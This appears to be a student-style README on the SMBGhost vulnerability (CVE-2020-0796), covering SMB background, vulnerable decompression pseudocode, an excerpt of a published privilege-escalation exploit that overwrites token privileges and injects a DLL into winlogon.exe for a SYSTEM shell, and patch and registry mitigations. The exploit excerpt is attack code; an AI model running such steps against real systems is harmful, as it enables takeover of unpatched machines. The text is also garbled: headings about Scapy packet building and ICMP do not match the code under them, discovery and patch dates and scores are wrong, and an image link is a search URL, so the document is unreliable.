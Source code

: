 # CVE-2020-0796


## Abstract
On March 12,2020, Microsoft confirmed that a critical vulnerability affecting the SMBv3 (Server Message Block 3.1.1) protocol associated with its latest version of Windows 10 and it has a case number: CVE-2020-0796. This is known as SMBGhosting in Windows 10 OS. 
-	date discovered: 2019-4-11 by Zecops Research Team
-	date patched: 2020-10-3 by Microsoft 

CVSSv3: 
-	base score: 10.0
-	Impact score: 0
-	Exploitability Score: 3.9
-	Severity: CRITICAL

Affected version: 
-	Windows 10 version (1903 and 1909)
-	Windows Server Version (1903 and 1909)


## Introduction
### What is SMB and what it does?
[Official defination](https://en.wikipedia.org/wiki/Server_Message_Block) In computer networking, Server Message Block, one version of which was also known as Common Internet File System (CFIS), is a communication protocol for providing shared access to files, printers and serial ports between nodes on a network. It also provides an authenticated inter-process communication (IPC) mechanism

This Protocol enables your devices to communciate with remote computers or servers. It basically lets you share files.

### What is SMBGhost and what it does? 
 This is a type of vulnerability that affects Windows 10 computers and was first reported publicly on 10 March, 2020. 
 
 This vulnerability allows the attacker to remotely execute the code on the SMB server or client. 



### who uses it and why would you want to use it
Users could be anyone among us. Here is a scenario, Imaging you are with your laptops, and using a printer connected to the company’s computer. When you request to print a document, your laptop uses the SMB protocol to send the print request to the company’s computer; while through the same protocol, your laptop will receive a response on whether the file is printed. 


### Real world impact
SMB version
-	SMBv1: released by IBM, Modified by Microsoft, (1990)
-	SMBv2: By Microsoft, Boosted performance
-	SMBv3: Increased Security


The infamous WannaCry ransomware was an exploit of a vulnerability in SMB version one.
It infected hundreds of thousands of computers and encrypted their data. Users have to pay in Bitcoin to get their data back. 






## Vulnerability POC
The vulnerability exits because SMB does not handle the compressed network packets properly. In particular, the Srv2DecompressData function is called to decompress the packet, but it does not validate the original compressed size (originalCompressedSegmentSize + Offset) of the packet header. Therefore, a small amount of the additional memory for offset address is copied in the kernel memory. No surprisingly, the bug can be used to cause overflow to gain higher local privileges.
The below POC created by zecops research team illustrates how the bug can be exploited remotely without authentication by causing a blue screen of death.This is a simplified version of the function below



### Create a simple packet header 
Creating a network packet is one of the main features of Scapy. Initially, I will create a simplest header of a packet, which only contains source ip address and destination ip address. 


>>>                                               
typedef struct _COMPRESSION_TRANSFORM_HEADER
{
    ULONG ProtocolId;
    ULONG OriginalCompressedSegmentSize;
    USHORT CompressionAlgorithm;
    USHORT Flags;
    ULONG Offset;
} COMPRESSION_TRANSFORM_HEADER, *PCOMPRESSION_TRANSFORM_HEADER;
 
typedef struct _ALLOCATION_HEADER
{
    // ...
    PVOID UserBuffer;
    // ...
} ALLOCATION_HEADER, *PALLOCATION_HEADER;
 
NTSTATUS Srv2DecompressData(PCOMPRESSION_TRANSFORM_HEADER Header, SIZE_T TotalSize)
{
    PALLOCATION_HEADER Alloc = SrvNetAllocateBuffer(
        (ULONG)(Header->OriginalCompressedSegmentSize + Header->Offset),
        NULL);
    If (!Alloc) {
        return STATUS_INSUFFICIENT_RESOURCES;
    }
 
    ULONG FinalCompressedSize = 0;
 
    NTSTATUS Status = SmbCompressionDecompress(
        Header->CompressionAlgorithm,
        (PUCHAR)Header + sizeof(COMPRESSION_TRANSFORM_HEADER) + Header->Offset,
        (ULONG)(TotalSize - sizeof(COMPRESSION_TRANSFORM_HEADER) - Header->Offset),
        (PUCHAR)Alloc->UserBuffer + Header->Offset,
        Header->OriginalCompressedSegmentSize,
        &FinalCompressedSize);
    if (Status < 0 || FinalCompressedSize != Header->OriginalCompressedSegmentSize) {
        SrvNetFreeBuffer(Alloc);
        return STATUS_BAD_DATA;
    }
 
    if (Header->Offset > 0) {
        memcpy(
            Alloc->UserBuffer,
            (PUCHAR)Header + sizeof(COMPRESSION_TRANSFORM_HEADER),
            Header->Offset);
    }
 
    Srv2ReplaceReceiveBuffer(some_session_handle, Alloc);
    return STATUS_SUCCESS;
}
>>>


By comparing line 20 (size + offet) and line 31 (size - offset), we can easily know that the buffer overflowed by executing this function. So If the offset is not zero, it triggers an additional integer overflow by three steps, allocate, decompress and copy. As a result, the memory allocation is shown in the picture below.

![Srv2DecompressData function](https://www.google.com/search?q=Srv2DecompressData&rlz=1C5CHFA_enCA919CA919&sxsrf=ALeKk03wKnRn0j00hxWl75aBvq5trvRMCQ:1616359135729&source=lnms&tbm=isch&sa=X&ved=2ahUKEwir7fSAn8LvAhWfGVkFHY8DBcMQ_AUoAnoECAEQBA&biw=1920&bih=976#imgrc=orKq2sACNF39NM&imgdii=lzwKxoCYwmreCM)


Whether or not the copy step is going to be executed, we already triggered the overflow since we changed the allocated size to be smaller than it actually needed. Thus, we are able to overflow any size of the content.
This could be a crucial vulnerability because we can use this to crash a specific windows system by an IP address.  The code below was created by ZECOPS research team, which customized a network packet header size and set up the offset in a token and exploit the vulnerability. The core part of the source code is shown as below.



### Send and receive packets (sr)
One of the most important segments in network is sending and receiving the packets. The sr() function is how we can implement them. The function will return both answered and unanswered packets. Below is a demonstration on how we use this function to send and receive a ICMP packets, as well as to decode the received the packets. 

>>> 
def exploit():
   """
   Exploits the bug to escalate privileges.
   Reminder:
   0: kd> dt nt!_SEP_TOKEN_PRIVILEGES
      +0x000 Present          : Uint8B
      +0x008 Enabled          : Uint8B
      +0x010 EnabledByDefault : Uint8B
   """
   token = get_token_address()
   if token is None: sys.exit(-1)

   what = b'\xFF' * 8 * 3
   where = token + 0x40

   print('[+] Writing full privileges on address %x' % (where))

   write_what_where('127.0.0.1', what, where)

   print('[+] All done! Spawning a privileged shell.')
   print('[+] Check your privileges: !token %x' % (token))

   dll_path = pathlib.Path(__file__).parent.absolute().joinpath('spawn_cmd.dll')
   subprocess.call(['Injector.exe', '--process-name', 'winlogon.exe', '--inject', dll_path], stdout=open(os.devnull, 'wb'))

And when the SMB decompressed the header, it will crash the windows system at the beginning by bule screen of death as below.
![blue screen of death](https://en.wikipedia.org/wiki/Blue_screen_of_death#/media/File:Bsodwindows10.png)

But if we keep trying the exploit several times, we can get the system/authority privilege.

![get the root privilege](start.png)
![get the root privilege](end.png)

The whole stack buffer overflow source code refer to zecops research team at https://github.com/ZecOps/CVE-2020-0796-LPE-POC


### Mitigating SMB Ghosting Attacks
There are several entities and organizations at risk of this attack:
Small and large government entities, Large and small business entities, and home users.

#### There are 3 main methods of preventing SMB Ghosting Attacks
Method 1: Involves using the Windows Update program to install the new security updates or cumulative updates released in March 2020.
Method 2: Visiting the official Microsoft website to download the SMB Ghosting security patch which would be the service stack update KB4541338, cumulative update KB4551762.
Method 3: This is a workaround provided by Microsoft which is not a Recommended solution as it does not Prevent the Exploitation, It Just Disables the SMBv3 Compression.
Execute this command in PowerShell:
Command - Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" DisableCompression -Type DWORD -Value 1 -Force


### Conclusion 


### Resources
[ Security vuknerability ](https://en.wikipedia.org/wiki/SMBGhost_(security_vulnerability))
[ SMB protocol ](https://www.youtube.com/watch?v=csocwMe7l_E)
